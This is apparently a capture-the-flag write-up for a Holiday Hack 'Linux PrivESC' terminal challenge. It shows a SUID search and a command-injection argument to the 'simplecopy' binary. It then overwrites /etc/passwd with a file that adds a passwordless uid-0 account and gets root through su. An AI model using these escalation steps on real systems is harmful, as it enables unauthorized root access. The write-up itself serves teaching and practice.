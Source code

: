 ```yaml
---
icon: material/penguin
---
```


# Linux PrivESC

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: --

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.<br/>
    Whatever. Do you know much about privilege escalation techniques on Linux?<br/>
    You're asking why? How about I'll tell you why after you help me.<br/>
    And you might have to use that big brain of yours to get creative, bub.

## Hints

??? tip "Linux Command Injection"
    *From: Rose Mold*<br/>
    *Terminal: Linux PrivESC*<br/>
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

??? tip "Linux Privilege Escalation Techniques"
    *From: Rose Mold*<br/>
    *Terminal: Linux PrivESC*<br/>
    There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.

## Solution

??? quote "Our Cranberry Pi terminal once again greets us with a holiday poem."
    In a digital winter wonderland we play,<br/>
    Where elves and bytes in harmony lay.<br/>
    This festive terminal is clear and bright,<br/>
    Escalate privileges, and bring forth the light.<br/>
    <br/>
    Start in the land of bash, where you reside,<br/>
    But to win this game, to root you must glide.<br/>
    Climb the ladder, permissions to seize,<br/>
    Unravel the mystery, with elegance and ease.<br/>
    <br/>
    There lies a gift, in the root's domain,<br/>
    An executable file to run, the prize you'll obtain.<br/>
    The game is won, the challenge complete,<br/>
    Merry Christmas to all, and to all, a root feat!<br/>
    <br/>
    * Find a method to escalate privileges inside this terminal and then run the binary in /root *

Our goal is to gain root privileges and run the binary located in the `/root` directory.
One of the techniques mentioned in the [resource](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) in Hint #2 involves exploiting a vulnerable SUID executable. Let's see if there are any here:

```hl_lines="10"
elf@f833db568d22:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
elf@f833db568d22:~$ 
```
Looking through the possibilities, the `simplecopy` binary sticks out to me. If this allows us to copy resources, it could be useful.<br/>
Let's run it:

```hl_lines="3"
elf@f833db568d22:~$ cd /usr/bin            
elf@f833db568d22:/usr/bin$ ./simplecopy 
Usage: ./simplecopy <source> <destination>
elf@f833db568d22:/usr/bin$ 
```
Now we see that there are two arguments accepted - a `<source>` and a `<destination>`.
Based on the hints, there are multiple ways to solve this challenge, including command injection. Let's see if these arguments are injectable.

```
elf@f833db568d22:/usr/bin$ ./simplecopy ;cat /etc/passwd
Usage: ./simplecopy <source> <destination>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
elf:x:1000:1000::/home/elf:/bin/sh
elf@f833db568d22:/usr/bin$ 
```
Yes, they are injectable, but what if we could overwrite the `/etc/passwd` file with our own file using `simplecopy`?

```hl_lines="8"
elf@f833db568d22:~$ echo 'root:x:0:0:root:/root:/bin/bash      
> root2::0:0::/root:/bin/bash
> elf:x:1000:1000::/home/elf:/bin/sh' > passwd
elf@f833db568d22:~$ ls
HELP  passwd
elf@f833db568d22:~$ cat passwd 
root:x:0:0:root:/root:/bin/bash
root2::0:0::/root:/bin/bash
elf:x:1000:1000::/home/elf:/bin/sh
elf@f833db568d22:~$
```
Now we have a new user `root2` with root permissions in our `passwd` file. We also included our current user `elf` in the file. Let's overwrite the existing `/etc/passwd` file with our crafted file.

```hl_lines="1 4"
elf@f833db568d22:~$ simplecopy passwd /etc/passwd
elf@f833db568d22:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
root2::0:0::/root:/bin/bash
elf:x:1000:1000::/home/elf:/bin/sh
elf@f833db568d22:~$ 
```
Now let's escalate to the `root2` user.

```hl_lines="2 3"
elf@f833db568d22:~$ su root2
root@f833db568d22:/home/elf# whoami
root
root@f833db568d22:/home/elf# 
```
We are `root`!
The last step is to find and run the binary in the root directory.

![linuxprivsolve](../img/objectives/o8/linuxprivsolve.png)

!!! tip 
    The answer is case-sensitive.

!!! success "Answer"
    santa

## Response

!!! quote "Insert Elf Name"
    Yup, I knew you knew. You just have that vibe.<br/>
    To answer your question of why from earlier... Nunya!<br/>
    But, I will tell you something better, about some information I... found.<br/>
    [There's a hidden, uncharted area somewhere along the coast of this island](../objectives/o10.md), and there may be more around the other islands.<br/>
    The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.<br/>
    That's all I got. K byyeeeee.<br/>
    Ugh... n00bs...<br/>
